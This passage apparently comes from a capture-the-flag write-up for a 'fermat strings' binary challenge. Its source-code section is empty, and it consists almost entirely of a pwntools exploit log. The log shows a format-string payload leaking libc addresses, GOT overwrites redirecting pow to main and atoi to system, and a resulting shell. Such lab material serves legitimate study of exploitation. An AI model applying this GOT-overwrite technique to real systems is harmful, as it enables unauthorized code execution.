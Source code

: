 ```shell
```

recv

```shell
hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/Pico/fermat_strings_final/bin$ python3 exploit.py
[*] '/mnt/d/pwn_myself/Pico/fermat_strings_final/bin/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
    RUNPATH:  b'.'
[*] '/mnt/d/pwn_myself/Pico/fermat_strings_final/bin/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/mnt/d/pwn_myself/Pico/fermat_strings_final/bin/chall': pid 15717
[*] Main address: 0x400837
[*] pow() GOT address: 0x601040
/home/hjn4/.local/lib/python3.10/site-packages/pwnlib/tubes/tube.py:840: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
/mnt/d/pwn_myself/Pico/fermat_strings_final/bin/exploit.py:35: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("Calculating for A: ")
[*] rewrote pow GOT to main
[*] puts() GOT address: 0x601018
[*] Sending:
    A:
    b'1_______%43$s.%44$s.'
    B:
    00000000  31 5f 5f 5f  5f 5f 5f 5f  18 10 60 00  00 00 00 00  │1___│____│··`·│····│
    00000010  58 10 60 00  00 00 00 00                            │X·`·│····│
    00000018
[*] Received:
    00000000  a0 65 d7 86  fd 7e 2e 30  67 d3 86 fd  7e 2e        │·e··│·~.0│g···│~.│
    0000000e
[*] puts() runtime address: 0x7efd86d765a0
[*] atoi() runtime address: 0x7efd86d36730
[*] libc_base address: 0x7efd86cef000
[*] system address: 0x7efd86d44410
[*] atoi() GOT address: 0x601058
Original values:
High: 32509
Medium: 34516
Low: 17424

Sorted values:
low: 17424 11
high: 32509 13
medium: 34516 12
/mnt/d/pwn_myself/Pico/fermat_strings_final/bin/exploit.py:124: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("Calculating for A: ")
[*] rewrote atoi GOT to system
[*] Switching to interactive mode
$ ls
chall           core       flag.txt    libc-2.31.so  solve.py
chall_patched  exploit.py  ld-2.31.so  libc.so.6
$
[*] Stopped process '/mnt/d/pwn_myself/Pico/fermat_strings_final/bin/chall' (pid 15717)
```